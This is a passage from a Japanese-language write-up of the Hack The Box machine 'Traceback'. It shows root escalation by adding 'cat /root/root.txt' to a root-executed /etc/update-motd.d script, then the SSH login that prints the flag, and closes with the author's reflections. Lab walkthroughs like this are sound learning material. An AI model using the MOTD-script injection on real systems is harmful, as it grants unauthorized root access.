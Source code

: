 `/etc/upated-motd.d` 以下はログイン時に出るバナーなどを実装しているシェルスクリプトのようです。
root 権限で動作するらしいので、ここで `/root/root.xt` の表示を試みます。

```
$ nano /etc/update-motd.d/00-header

# cat /root/root.txt を追加
```

これで SSH し直すとバナーと一緒に `root.txt` も出力されます！

```
$ ssh -i ~/.ssh/traceback sysadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 

xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx


Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Fri Aug 21 00:56:10 2020 from 10.10.14.11
$
```

## 感想

最初から Web Shell がしかけられてるシチュエーションなんてあるかよ、という気持ちもあったのですがイタズラ的にマシンを乗っ取られてそれを取り返すというシチュエーションだと思うと、ある程度は納得出来る問題でした。  

初めての問題で何も分からない状態からのスタートでしたが、リタイアした別マシンの write up を読んで使うべきツールなり定石なりを把握すると割とすんなり解けました。  
実際仕事終わりに問題に取り組んで 2 日間くらいかかってしまったのですが、終わってみると「やるだけ」だったなという感想です。  

そもそも始めたきっかけは [ハッキングという言葉に憧れるエンジニア達に贈る Hack the Box 入門](https://speakerdeck.com/sanposhiho/hatukingutoiuyan-xie-nichong-reruenziniada-nizeng-ru-hack-the-box-ru-men) を見たことなのですが、
これを最初に見たとき「これが Easy なら自分には厳しいな」という印象を持ったのですが、やってみれば割とこなせたので少し自分に自信がつきました。  
良い経験だったと思います。

今の自分は Script Kiddie という大変不名誉なランクなので Hacker になるまでは続けようと思います。

https://app.hackthebox.eu/profile/367637